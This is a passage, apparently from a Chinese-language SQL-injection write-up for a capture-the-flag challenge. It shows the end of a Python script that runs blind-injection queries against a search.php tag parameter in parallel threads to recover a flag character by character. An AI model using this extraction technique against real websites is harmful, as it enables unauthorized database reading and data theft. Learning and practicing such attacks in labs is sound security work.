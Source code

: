 ``` python

    print(f"For {index} trying", group)

    response = requests.get(f'{host}/search.php?tag={encode(payload)}')
    if not response.ok:
      print('error')
      print(response.text)
      print(payload)
      return False

    data = json.loads(response.text)
    if len(data) == 0:
      return False

    if len(data) == 2:
      R = ML
      if len(group[0]) == 1:
        return group[0]
      
    else:
      if data[0]["name"] == "home1":
        L = ML
        R = MR
        if len(group[1]) == 1:
          return group[1]
      else:
        L = MR
        if len(group[2]) == 1:
          return group[2]

def run():
    length = 15
    ans = [None] * length
    with concurrent.futures.ThreadPoolExecutor(max_workers=length) as executor:
        futures = {executor.submit(get_char, i): i for i in range(length)}
        for future in concurrent.futures.as_completed(futures):
            index = futures[future]
            data = future.result()
            print_success(f"Index {index} is {data}")
            ans[index] = data

    print_success(f"flag: {flag}{''.join([n for n in ans if n != False])}")

start = time.time()
run()
print(f"time: {time.time() - start}s")
```

跑起來像這樣：

![](/img/sql-injection-in-action/p4.png)
